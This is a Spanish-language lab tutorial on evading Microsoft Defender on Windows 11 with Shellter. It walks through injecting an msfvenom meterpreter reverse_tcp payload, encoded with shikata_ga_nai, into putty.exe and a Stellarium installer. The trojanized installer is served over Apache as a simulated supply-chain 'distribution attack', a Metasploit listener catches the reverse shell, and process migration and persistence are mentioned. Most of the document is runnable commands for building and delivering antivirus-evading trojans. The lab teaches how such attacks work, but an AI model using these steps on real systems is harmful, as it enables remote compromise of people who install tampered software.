









# Evasión del antivirus usando Shelter
  

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Los antivirus de los sistemas operativos modernos, como ***Microsoft Defender*** en ***Windows 11*** son realmente efectivos detectando el malware generado por herramientas tradicionales como ***Metasploit***. De hecho la ofuscación que permite hacer ***Metasploit*** suele ser detectada por los antivirus. 

Por ello, acudimos a otros proyectos que suelen tener mejores resultados, al menos en este momento. Nos referimos a ***Shelter***, un generador de malware para Windows. Si necesitas más información puedes consultar el proyecto en GitHub: https://gitea.angry.im/PeterCxy/Shelter

# Ejercicio 1: Instalación de Shelter en Kali Linux.

Vamos a trabajar en la máquina ***Kali***.

***Shelter*** genera malware para la plataforma ***Windows***. Por ello es necesario instalar un emulador de Windows en Linux. Usaremos ***Wine***.

En primer lugar habilitamos al gestor de paquetes para que se pueda descargar programas para la arquitectura de 32 bits.

Esto es porque ***Wine*** debe crear malware para 32bits y para que se pueda ejecutar en plataformas de 32 y 64 bits.
```
sudo dpkg --add-architecture i386
```

Actualizamos repositorio.
```
sudo apt-get update
```

Instalamos ***Wine*** de 32 bits.
```
sudo apt install wine32
```

Probamos que ***Wine*** funciona. Cuando se abra el cuadro de diálogo lo cerramos.
```
winecfg
```

Procedemos a instalar ***Shelter***. En la terminal escribimos.
```
sudo apt install -y shellter
```

# Ejercicio 2: Inyectar malware evadiendo al antivirus.

El objetivo es incrustar malware en archivos ejecutables que se suelan usar en la organización. Una vez generado este malware, lo colocaremos en el recurso compartido o repositorio de software, usando entonces la estrategia de ***Ataque de distribución***.

Creamos una carpeta para almacenar el malware que generemos. En la terminal escribimos.
```
mkdir -p ~/malware

cd ~/malware
```

Vamos a descargar dos ejecutables en los que inyectaremos el malware. Estos son:

* *Putty*. El famoso cliente ssh.
* *Stellarium*. Un software de astronomía open source.

Realmente el ejecutable a usar lo decide el actor de la amenaza en función de sus intereses. También es importante recalcar que, aunque podamos inyectar malware en todos los ejecutables, los motores antivirus pueden detectarlos en unos y no en otros, por lo que se debe ir probando.

Descargamos la versión de 32 bits de ***Putty***.
```
wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe
```

Y ahora la versión de 32 bits de ***Stellarium***.
```
wget https://github.com/Stellarium/stellarium/releases/download/v0.21.2/stellarium-0.21.2-win32.exe
```

Iniciamos ***Shelter***.
``` 
sudo wineconsole /usr/share/windows-resources/shellter/shellter.exe
```

En la consola de ***Shelter*** irán apareciendo una serie de preguntas, a las que iremos respondiendo.

A la pregunta: ***Chose Operation Mode***, contestamos ***A***.

A la pregunta: ***PE Target***, donde nos pide el ejecutable al que deseamos inyectar el malware, contestamos ***/home/antonio/malware/putty.exe***.

A la pregunta: ***Enable Stealth Mode***, que aplica ofuscación al malware, contestamos ***Y***.

A la pregunta: ***Used a listed payload or custom***, contestamos ***C***. 

Vamos a usar ***msfvenom*** para crear el payload. Así, abrimos una nueva terminal y en ella escribimos.
Nota: El payload se almacena en la ruta ***~/malware/payload.raw***.
```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=4444 -e x86/shikata_ga_nai -i 20 -f raw -o /home/antonio/malware/payload.raw
```

Cuando termine de generarse el payload, cerramos la terminal que la creó y volvemos a ***Shelter***.

Shelter nos dice ***Select Payload***, a lo que contestamos ***/home/antonio/malware/payload.raw***.

A la pregunta: ***Is this payload a reflective DLL loader***, contestamos ***N***.

***Shelter*** generará el malware y lo incrustará en el ejecutable ***putty.exe***. Cuando muestre el mensaje ***Press [Enter] to continue***, pulsamos dicha tecla. 

Es el momento de enfrentar este malware al antivirus. Para simular el ***Ataque de distribución*** pasamos directamente el ejecutable por medio de un servidor web.

Vamos a iniciar el servidor ***Apache***. En la terminal escribimos.
```
sudo service apache2 start
```

Copiamos el malware al directorio raíz del servidor.
```
sudo cp putty.exe /var/www/html
```

Cambiamos a la máquina ***Win 11***.

En ella abrimos en navegador y escribimos la siguiente URL.
```
http://192.168.20.9/putty.exe
```

El navegador nos avisa que descargar un ejecutable no es buena idea, pero no debemos olvidar que estamos simulando el ataque de distribución, en el que la víctima instala software desde un repositorio.



Situamos el ratón encima del mensaje, y en los tres puntitos que aparecen a la derecha, elegimos la opción ***Keep***.



***Edge*** nos indica que ***SmartScreen*** no puede verificar este ejecutable porque no se descarga habitualmente. Desplemamos ***Show More***, tal y como muestra la imagen, y elegimos ***Keep anyway***.



Se empieza a descargar. Afortunadamente, la última línea defensiva, el antivirus ***Microsoft Defender*** ha detenido la amenaza.



Se ve que ***Shelter*** no puede esconder convenientemente el malware en el ejecutable, y es debido a que el tamaño del ejecutable original es pequeño.

Procedemos a subir ***putty.exe*** a ***Virus Total***.

En la máquina ***Kali*** abrimos un navegador y conectamos a la URL.
```
https://www.virustotal.com
```

Por medio del botón ***Cloose file*** subimos a ***putty.exe*** para que sea analizado.

La mitad de los antivirus no lo detectan, aunque los más reconocidos sí.



Vamos a volver a repetir el laboratorio, pero esta vez con un ejecutable más largo.

En la máquina ***Kali***, en la terminal lanzamos ***Shellter***.
```
sudo wineconsole /usr/share/windows-resources/shellter/shellter.exe
```

A la pregunta: ***Chose Operation Mode***, contestamos ***A***.

A la pregunta: ***PE Target***, contestamos ***/home/antonio/malware/stellarium-0.21.2-win32.exe***.

A la pregunta: ***Enable Stealth Mode***, que aplica ofuscación al malware, contestamos ***Y***.

A la pregunta: ***Used a listed payload or custom***, contestamos ***C***. 

Shelter nos dice ***Select Payload***, a lo que contestamos ***/home/antonio/malware/payload.raw***.

A la pregunta: ***Is this payload a reflective DLL loader***, contestamos ***N***.

***Shelter*** generará el malware y lo incrustará en el ejecutable ***Stellarium-0.21.2-win32.exe***. Cuando muestre el mensaje ***Press [Enter] to continue***, pulsamos dicha tecla.

Procedemos a pasar el ejecutable a la víctima. En la terminal escribimos.
```
sudo cp ./stellarium*.exe /var/www/html
```

En la máquina ***Windows 11***, en el navegador, escribimos la siguiente URL.
```
http://192.168.20.9/stellarium-0.21.2-win32.exe
```

Ignoramos las advertencias de ***Edge*** y seleccionamos ***Keep ayway***.



A diferencia de antes, ***Microsoft Defender*** no ha podido encontrar el malware en el ejecutable y nos ofrece el link de apertura.

Importante. NO hacer clic aún en el ejecutable porque debemos preparar el ***Listener***.

En la máquina ***Kali***, en la terminar abrimos ***Metasploit***.
```
sudo msfconsole
```

En la consola de ***Metasploit*** configuramos lo siguiente.
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost 192.168.20.9
```
```
set lport 4444
```
```
exploit
```

Volvemos a la máquina ***Win 11*** y abrimos el ejecutable de ***Stellarium*** haciendo clic en ***Open File***.

Muy importante. En el control de cuentas de usuario ***UAC***, no hacer nada, dejamos el diálogo abierto, pues si se cierra, la sesión de ***meterpreter*** se pierde.

En la máquina ***Kali*** podemos observar como el ***listener*** ha sido llamado por el payload y tenemos una sesión remota.



La sesión de ***meterpreter*** permanece activa muy poco tiempo, sobre todo si el usuario hace clic en ***Yes*** en el diálogo UAC, lo que iniciaría la instalación del software ***Stellarium***.

Para que el ataque sea efectivo del todo, debemos migrar el proceso. Su finalidad es que cuando se haya abierto la sesión, automaticamente se migra el proceso del payload a otro proceso con el comando ***migrate***. De esta forma, si la víctima cierra o continúa con la instalación, ***Meterpreter*** estará corriendo en otro proceso diferente y no se verá afectado. A continuación, si se requiere, se continúa con la ***persistencia***, de manera que ***Meterpreter*** se conecte a su ***listener*** cada vez que la víctima enciende su equipo.

Te preguntarás qué tiene que decir ***Virus Total***, ¿no?.

Si subes el archivo, el resultado es que solo lo detectaron ***5 de 63***.



Y los afortunados fueron...




¿Sigues pensando que tu antivirus es perfecto? ;)


